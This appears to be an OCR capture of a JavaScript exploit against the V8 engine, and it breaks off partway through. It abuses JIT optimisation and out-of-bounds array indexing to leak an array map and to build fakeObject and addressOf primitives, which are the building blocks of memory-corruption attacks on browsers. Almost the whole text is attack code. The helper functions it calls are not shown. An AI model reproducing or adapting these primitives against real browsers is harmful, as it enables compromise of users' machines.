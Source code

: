 ```javascript
var obj_array;
function opt(){
	obj = [1.1, 2.2];
	obj_array = [obj];
	let o = {x : 2};
	return obj[o.x];
}

for(var i=0; i < 0x10000; i++){
    opt();
}

var float_array_map = opt();
console.log("[+] float_array_map: 0x"+ hex(f2i(float_array_map)));

var obj_array_map = i2f(f2i(float_array_map) + 0xa0);
console.log("[+] obj_array_map: 0x"+ hex(f2i(obj_array_map)));


function fakeObject_opt(addr)
{
	let array = [addr, addr];
	let o = {x : 2};
	array[o.x] = obj_array_map;
	return array;
}

for(let i=0; i < 0x10000; i++){
	fakeObject_opt(float_array_map);
}

function fakeObject(addr)
{
	let ret = fakeObject_opt(addr);
	return ret[0];

}
var float_map_obj = fakeObject(float_array_map);
//%DebugPrint(float_map_obj);

function addrOf_opt(obj)
{
	let array = [obj, obj];
	let o = {x : 2};
	array[o.x] = float_map_obj; 
	return array;
}

var tmp_obj = {"a":1};

for(let i=0; i < 0x10000; i++)
	addrOf_opt(tmp_obj);

function addressOf(obj)
{
	let ret = addrOf_opt(obj);
	return ret[0];
}

var fake_array = [
	float_array_map,
	i2f(0),
	i2f(0x41414141),
```